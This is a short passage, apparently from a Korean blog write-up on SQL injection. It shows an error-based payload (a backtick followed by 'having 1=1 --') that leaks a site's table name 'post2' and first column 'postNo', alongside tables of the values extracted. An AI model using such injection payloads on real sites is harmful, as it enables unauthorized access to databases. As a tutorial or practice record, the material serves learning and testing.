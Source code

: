 <table style="text-align: center;">
  <tr>
    <th>
      <img src="../assets/2023-04-03-SQLI/0.png"/>
    </th>
    <th>
       <img src="../assets/2023-04-03-SQLI/1.png"/>
    </th>
  </tr>
  <tr>
    <td><b>&lt 그림. 0 &gt</b></td>
    <td><b>&lt 그림. 1 &gt</b></td>
  </tr>
</table>

| 종류          | 얻은 값  |
| ------------- | -------- |
| Database name | oyesmall |



### Table 이름 추출

```sql
` having 1=1 --
```

![](../assets/2023-04-03-SQLI/2.png)

<center><b>< 그림. 2 ></b></center>

 `post2`는 table의 이름이며, `postNo`가 첫 column 이란걸 한번에 알 수 있다.

| 종류          | 얻은 값  |
| ------------- | -------- |
| Database name | oyesmall |
| Table name    | post2    |
| 1st column    | postNo   |
